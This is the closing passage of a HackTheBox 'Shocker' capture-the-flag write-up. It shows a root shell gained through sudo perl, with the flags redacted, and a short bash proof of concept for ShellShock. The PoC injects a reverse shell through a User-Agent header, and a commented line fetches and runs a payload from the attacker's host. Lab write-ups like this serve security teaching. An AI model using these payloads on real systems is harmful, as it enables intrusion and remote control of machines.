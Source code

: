 ```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
uname -a
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Alright, now we're talking. We don't have a *pretty* shell but we're root! And it was pretty easy too. And there we have it, we've exploited the machine and obtained root permissions, from here we can read the `/home/shelly/user.txt` and the `/root/root.txt` and get our whole 0 points from HackTheBox!

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /home/shelly/user.txt
13f51b<-- REDACTED -->
cat /root/root.txt  
b1fd49<-- REDACTED -->
```
<br>

# Super basic POC
---

```bash
#!/usr/bin/bash

# Super Basic POC Exploit code for HackTheBox Shocker
# Utilizes the ShellShock exploit

# Author: Brad Roberts

if [ $# -lt 2 ];then
    echo "Usage: $0 [LHOST] [LPORT]"
    exit 1
fi

LHOST=$1
LPORT=$2

TARGET="http://10.10.10.56/cgi-bin/user.sh"

PAYLOAD="/bin/bash -c 'bash -i >& /dev/tcp/${LHOST}/${LPORT} 0>&1'"
# Fan of Bishop Fox and use Sliver? Build a mtls payload using `generate --os linux --mtls <your attacker ip> -N sploit`
# oh and make sure to make it world readable when you start up your webserver :)
# PAYLOAD="/bin/bash -c 'cd /tmp; curl http://${LHOST}:8080/sploit -o sploit; chmod +x sploit; /tmp/sploit &'"

curl -H "User-Agent: () { :; }; echo; echo; ${PAYLOAD}" ${TARGET}
```
<br>

